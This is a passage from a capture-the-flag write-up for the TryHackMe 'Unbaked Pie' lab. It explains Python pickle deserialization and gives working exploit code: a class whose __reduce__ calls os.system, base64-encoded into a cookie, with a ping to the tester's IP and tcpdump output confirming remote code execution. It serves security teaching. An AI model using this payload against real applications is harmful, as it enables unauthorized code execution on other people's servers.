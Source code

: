 ```console
>>> test
b'\x80\x04\x95\x08\x00\x00\x00\x00\x00\x00\x00\x8c\x04test\x94.'
>>> pickle.loads(test)
'test'
```
Serialization is used to convert python object into a stream of data and we send the stream of the data to the backend where it is deserialized to obtain the python object. But if the untrusted user input is deserialized without sanitization, it might cause a lot of problems.
Lets send a malicious payload to check whether there is proper sanitization or not. I have followed [this](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) article to get code execution.

## Creating malilicous object 
```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('ping -c 1 10.6.31.213')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

```console
local@local:~/Documents/tryhackme/unbaked_pie$ python exp.py 
b'gASVMAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjBVwaW5nIC1jIDEgMTAuNi4zMS4yMTOUhZRSlC4='
```
Now, we will replace the value of the cookie with this new value and check if we get a ping back from the box.

## Making a GET request with new cookie
![3](/assets/images/thm/unbaked_pie/3.png)
After we made the request, if we check the tcpdump result, we get a ping back, which means we have code execution.
```console
local@local:~/Documents/tryhackme/unbaked_pie$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
18:02:19.830239 IP 10.10.28.159 > local: ICMP echo request, id 623, seq 1, length 64
18:02:19.830285 IP local > 10.10.28.159: ICMP echo reply, id 623, seq 1, length 64
```
